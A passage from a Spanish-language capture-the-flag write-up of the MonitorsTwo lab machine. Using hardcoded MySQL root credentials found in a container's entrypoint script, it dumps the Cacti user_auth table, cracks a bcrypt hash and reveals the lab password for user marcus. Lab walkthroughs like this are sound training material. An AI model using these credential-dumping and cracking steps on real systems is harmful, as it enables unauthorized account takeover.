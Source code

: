 ```
Sin embargo, no nos servira para conseguir ninguna flag, ya que estamos dentro de un contenedor, a este punto decidi usar linpeas para ver si hay otro archivo interesante, y me arrojo que existe uno que se llama ```/entrypoint.sh```.

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```
Y tenemos la capacidad de ejecutar el comando: ```mysql --host=db --user=root --password=root cacti -e "consulta"```, no hace falta indicarle la base de datos ya que ya se esta usando, y es la de nombre ```cacti```, ahora mostraremos todas las tablas:

```mysql --host=db --user=root --password=root cacti -e "show tables"```

Las tablas de nuestro interes son estas:

```
user_auth
user_auth_cache
user_auth_group
user_auth_group_members
user_auth_group_perms
user_auth_group_realm
user_auth_perms
user_auth_realm
user_domains
user_domains_ldap
```
Empezare a ver los datos de la primera tabla:

```mysql --host=db --user=root --password=root cacti -e "select * from user_auth"```

Aun que se vea extraño, hemos conseguido usuarios y el hash de sus contraseñas

![](/assets/img/monitorsTwo/4.png)

Les adelando que la unica que podemos crackear sera la de Marcus y esta cifrada con bcrypt, pueden usar John o Hashcat

**usr:** marcus

**pass:** funkymonkey

Ya tenemos la primera flag

```bash
marcus@monitorstwo:~$ cat user.txt 
a93ad02d6adb6a980368dad17b1*****
```